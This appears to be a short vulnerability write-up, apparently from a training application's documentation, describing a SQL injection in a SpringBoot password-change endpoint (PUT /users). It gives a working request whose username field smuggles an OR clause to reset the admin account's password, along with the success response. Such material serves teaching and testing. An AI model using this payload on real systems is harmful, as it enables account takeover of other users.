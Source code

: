 # Blind SQL Injection
A variant of SQL injection, a database query manipulation attack against structured query language (SQL), that does not have visual output during a successful attack.

## Exploitation
**Prerequisites:** Authenticated
**Location:** _PUT /users_

Blind SQL Injection present within SpringBoot code for changing password.  Can be escaped to, for example, change the passwords of other users in addition to itself.  Below is an exploitation example:

    PUT /users
    raw:
    {
        "username":"ding' OR username = 'admin",
        "newPassword":"password10!"
    }

This example assumes the attacker's name is _ding_ and adds _' OR username = 'admin"_ after specifying the username to change the password of the admin account to _password10!_ alongside the attacker's account.

Successful exploitation looks like:

    {
        "success": true,
        "code": 200,
        "message": "Password updated successfully."
    }

